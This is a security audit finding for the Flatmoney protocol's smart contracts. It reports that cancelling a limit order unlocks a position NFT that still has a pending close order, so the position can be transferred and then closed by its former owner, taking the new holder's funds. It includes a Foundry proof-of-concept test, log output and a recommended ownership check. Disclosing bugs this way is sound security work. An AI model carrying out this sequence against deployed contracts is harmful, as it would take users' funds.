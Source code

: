 Fantastic Brick Parrot

high

# User can announce several orders for the same position or steal partial funds from other user

## Summary
User can close the transferred position.
It can be done with `announceLeverageAdjust` and for `announceLeverageClose`
## Vulnerability Detail
[Locking here](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L361)
1. userA -announceLeverageOpen (opening position)
2. userA  announceLeverageClose (locking position)
3. userA announceLimitOrder
4. userA cancelLimitOrder(unlocking position)
5. userA transfer position to another user - userB
6. userB can create another announce for the same position or userB can announce adjust, send funds to protocol and lose his funds after userA closing position.
7. userA executeOrder(closing position) from 2, since its not been cleared and there is not check that he owns the position

## Impact

## Code Snippet

## Tool used

```solidity
    function test_lock_when_leverage_close_order_announced() public {
        setWethPrice(1000e8);

        uint256 tokenId = announceAndExecuteDepositAndLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: 100e18,
            margin: 50e18,
            additionalSize: 100e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });

        (uint256 minFillPrice, ) = oracleModProxy.getPrice();

        vm.startPrank(alice);

        // Announce the order
        delayedOrderProxy.announceLeverageClose({
            tokenId: tokenId,
            minFillPrice: minFillPrice,
            keeperFee: mockKeeperFee.getKeeperFee()
        });

        assertTrue(leverageModProxy.isLocked(tokenId), "Position NFT should be locked");

        console2.log("-------owner before limit order");
        console2.log(leverageModProxy.ownerOf(tokenId));
        console2.log(alice);

        limitOrderProxy.announceLimitOrder({
            tokenId: tokenId,
            priceLowerThreshold: 900e18,
            priceUpperThreshold: 1100e18
        });
        limitOrderProxy.cancelLimitOrder(tokenId);
        // Try to transfer the position.
//        vm.expectRevert("ERC721LockableEnumerableUpgradeable: token is locked");
        leverageModProxy.transferFrom({from: alice, to: bob, tokenId: tokenId});
        console2.log("-------owner after limit order--------");
        console2.log(leverageModProxy.ownerOf(tokenId));
        console2.log(bob);
        // Skip some time to make the order executable.
        skip(vaultProxy.minExecutabilityAge() + 1);

        // Execute the order
        executeCloseLeverage2({keeperAccount: keeper, traderAccount: alice, oraclePrice: 1000e8});
    }
```
```code
  -------owner before limit order
  0x328809Bc894f92807417D2dAD6b7C998c1aFdac6
  0x328809Bc894f92807417D2dAD6b7C998c1aFdac6
  -------owner after limit order--------
  0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e
  0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e
```

OrderHelpers
```solidity
    function executeCloseLeverage2(
        address keeperAccount,
        address traderAccount,
        uint256 oraclePrice
    ) public virtual returns (int256 settledMargin) {
        FlatcoinStructs.Order memory order = delayedOrderProxy.getAnnouncedOrder(traderAccount);
        FlatcoinStructs.AnnouncedLeverageClose memory leverageClose = abi.decode(
            order.orderData,
            (FlatcoinStructs.AnnouncedLeverageClose)
        );
        uint256 additionalSize = vaultProxy.getPosition(leverageClose.tokenId).additionalSize;

        VerifyLeverageData memory before = VerifyLeverageData({
            nftTotalSupply: leverageModProxy.totalSupply(),
            traderEthBalance: WETH.balanceOf(traderAccount),
            traderNftBalance: leverageModProxy.balanceOf(traderAccount),
            contractNftBalance: leverageModProxy.balanceOf(address(delayedOrderProxy)),
            keeperBalance: WETH.balanceOf(keeperAccount),
            stableCollateralPerShare: uint256(_getStableCollateralPerShare(oraclePrice * 1e10)),
            positionSummary: leverageModProxy.getPositionSummary(leverageClose.tokenId),
            oraclePrice: _oraclePrice()
        });

        uint256 tradeFee = (leverageModProxy.levTradingFee() * additionalSize) / 1e18;

        bytes[] memory priceUpdateData = getPriceUpdateData(oraclePrice);

        {
            // Execute order doesn't have any return data so we need to try and estimate the settled margin
            // in the position by the trader's WETH balance before and after the transaction execution
            uint256 traderEthBalanceBefore = WETH.balanceOf(traderAccount);
            vm.startPrank(keeperAccount);
            delayedOrderProxy.executeOrder{value: 1}(traderAccount, priceUpdateData);
            return 0;
        }
    }

```
## Recommendation
Checking owner in LeverageModule "executeClose"